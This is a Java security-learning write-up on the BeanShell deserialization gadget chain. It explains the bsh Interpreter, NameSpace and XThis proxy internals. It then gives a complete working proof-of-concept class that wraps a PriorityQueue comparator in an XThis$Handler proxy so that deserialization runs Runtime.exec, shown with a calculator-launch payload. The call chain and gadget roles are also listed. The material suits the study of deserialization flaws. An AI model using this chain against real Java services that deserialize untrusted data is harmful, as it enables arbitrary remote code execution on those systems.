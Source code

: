 # Java Security Learning—BeanShell Chain

Author: H3rmesk1t

Data: 2022.03.16

# BeanShell Introduction
[BeanShell](https://en.wikipedia.org/wiki/BeanShell) is a small, free, embedded Java source interpreter with object scripting language features, written in Java. It runs in the Java Runtime Environment (JRE), dynamically executes standard Java syntax and extends it with common scripting conveniences such as loose types, commands, and method closings, like those in Perl and JavaScript.

# Pre-knowledge
## Interpreter
`bsh.Interpreter` is an interpreter that interprets and executes the `BeanShell` script. You can set variables through the `set` method, and then interpret and execute scripts through the `eval` method. The parsed and set variables will be saved in the member variable globalNameSpace of the `Interpreter` instance. `bsh.NameSpace` is a namespace that stores methods, variables, and packages. `NameSpace` and an `Interpreter` instance form the context of a `Bsh` script object.

<div align=center><img src="./images/1.png"></div>

<div align=center><img src="./images/2.png"></div>

## XThis
`bsh.This` is the `Bsh` script object type. A `This` object is the context of an object of a `Bsh` script. A `This` object stores `NameSpace` and `Interpreter`, and provides some methods for manipulating the content in the context.

<div align=center><img src="./images/3.png"></div>

Where the `invokeMethod` method provides the function of calling methods from outside the `Bsh` script using `Java` code.

`XThis` is a subclass of the `bsh.This` object. On the basis of `This`, the support of the general interface proxy mechanism is added, that is, `InvocationHandler`. There is an internal class `Handler` in `XThis`, which implements the `InvocationHandler` interface and overrides the `invoke` method, and calls the `invokeImpl` method. The `invokeImpl` method specially handles the `equals` and `toString` methods, call `invokeMethod` to execute the corresponding methods, and uses `Primitive.unwrap` to process the return value.

<div align=center><img src="./images/4.png"></div>

In general, `XThis` is a proxy class for an object of a `Bsh` script. The method of the `Bsh` script can be called externally through this proxy class.

# POC
```java
package org.h3rmesk1t.BeanShell;

import bsh.Interpreter;
import bsh.XThis;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.Base64;
import java.util.Comparator;
import java.util.PriorityQueue;

/**
 * @Author: H3rmesk1t
 * @Data: 2022/3/16 12:11 am
 */
public class BeanShellExploit {

    public static String serialize(Object obj) throws Exception {

        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(obj);
        byte[] expCode = byteArrayOutputStream.toByteArray();
        objectOutputStream.close();
        return Base64.getEncoder().encodeToString(expCode);
    }

    public static void unserialize(String expBase64) throws Exception {

        byte[] bytes = Base64.getDecoder().decode(expBase64);
        ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(bytes);
        ObjectInputStream objectInputStream = new ObjectInputStream(byteArrayInputStream);
        objectInputStream.readObject();
    }
    
    public static void main(String[] args) throws Exception {

        // The compare function needs to accept two parameters and return the Integer type.
        String func = "compare(Object whatever,Object dontCare) {java.lang.Runtime.getRuntime().exec(\"open -a Calculator\");return new Integer(1);}";

        // Register the compare method into the Interpreter instance context.
        Interpreter interpreter = new Interpreter();
        interpreter.eval(func);

        // Create an XThis object and get its invocationHandler.
        XThis xThis = new XThis(interpreter.getNameSpace(), interpreter);
        Field handlerField = XThis.class.getDeclaredField("invocationHandler");
        handlerField.setAccessible(true);
        InvocationHandler handler = (InvocationHandler) handlerField.get(xThis);

        // Create dynamic proxy for Comparator using XThis$Handler
        Comparator<Object> comparator = (Comparator<Object>) Proxy.newProxyInstance(Comparator.class.getClassLoader(), new Class<?>[]{Comparator.class}, handler);

        PriorityQueue<Object> queue = new PriorityQueue<>(2);
        queue.add("1");
        queue.add("2");

        Field field = Class.forName("java.util.PriorityQueue").getDeclaredField("comparator");
        field.setAccessible(true);
        field.set(queue, comparator);

        // Serialization operation.
        String ex
p = serialize(queue);
        System.out.println(exp);

        // Deserialization operation.
        unserialize(exp);
    }
}
```

# Call chain
```java
PriorityQueue.readObject()
    Comparator.compare()
            XThis$Handler.invoke()
                XThis$Handler.invokeImpl()
                    This.invokeMethod()
                        BshMethod.invoke()
```

# Summarize
## Usage Instructions
Use the `PriorityQueue` deserialization of the `compare` method that triggers the `Comparator`, use the `XThis$Handler` dynamic proxying the `Comparator` and constructing a `compare` method with malicious code within its `Interpreter` trigger call.

## Gadget
 - kick-off gadget: java.util.PriorityQueue#readObject
 - sink gadget: bsh.This#invokeMethod
 - chain gadget: bsh.XThis$Handler#invokeImpl
 - Supplement: In fact, `XThis` can be used to implement any `kick-off` trigger, because any method can be executed using a dynamic proxy.

# refer to
 - [BeanShell](https://su18.org/post/ysoserial-su18-5/#:~:text=rome%20%3A%201.0-,BeanShell,-BeanShell%20%E6%98%AF%E4%B8%80%E4%B8%AA)